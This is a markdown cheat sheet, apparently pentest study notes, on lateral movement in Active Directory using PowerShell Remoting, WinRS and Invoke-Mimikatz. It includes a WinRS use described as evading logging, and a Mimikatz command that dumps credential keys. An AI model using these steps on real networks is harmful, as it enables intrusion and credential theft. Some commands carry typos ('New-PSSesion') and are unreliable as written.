 ## Lateral Movement on Active Directory 


### PowerShell Remoting
---
Uses TCP-5985. T
```powershell
# Check computers where PS Remoting can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```

- **Enable PowerShell Remoting:** From [M$ Documentation](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enable-psremoting?view=powershell-7.2), creates rules on computer firewall to allow remote connections. 
```powershell
C:> Enable-PSRemoting 
```
- **Create Remote Session:** [M$ Documented](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.2)
```powershell
# Create a Session in Local Computer
C:> New-PSSession

# Create Session on Remote Computer
C:> $remote_computer = New-PSSesion -ComputerName <computer>

# Create Session on Multiple Computers
C:> $s1, $s2, $s3 = New-PSSession -ComputerName Server01,Server02,Server03
```
- **Entering into Existing PSSession**
```powershell
# A Completelly New Session to Computer
C:> Enter-PSSession -ComputerName <computer>

# A session created previously with New-PSSession
C:> $remote_computer = New-PSSesion -ComputerName <computer>
C:> Enter-PSSession -Session $remote_computer
```
- **Remote Execution**
```powershell
# Remote Execution With Credentials
c:> $SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
C:> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)
C:> Invoke-Command -ComputerName <computer> -Credential $Cred -ScriptBlock {whoami}

# Run Local Script in Remote Computer
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName <computer>
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName (Get-Content <list_of_servers>)

# Run Command (Script Block) on Remote Computer
C:> Invoke-Command -ComputerName Server01 -Credential <domain>\<user> -ScriptBlock {whoami;hostname}
C:> Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

# Persistent Connection, Series of Commands Sharing Data
C:> $s = New-PSSession -ComputerName <computer>                             # Without this, 2 lines below wouldn't share data on $s
C:> Invoke-Command -Session $s -ScriptBlock {$p = Get-Process PowerShell}
C:> Invoke-Command -Session $s -ScriptBlock {$p.VirtualMemorySize}          # $sp is from previous command

```

### WinRS
---
```powershell
# Check computers where WinRS can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```
Uses same port as PSRemoting, and evades Remoting Logging.
- **Execute Remote Command**
```powershell
# Use `cmd`as command to get a shell
C:> winrs -remote:<computer> -u:<domain>\<user> -p:<password> <command>
```

### MimiKatz PowerShell Port
---
Requires Local Admin Privileges on computer where is run.
```powershell
C:> . .\Invoke-Mimikatz.ps1
```
- **Dump Credentials on Local Machine**
```powershell
C:> Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
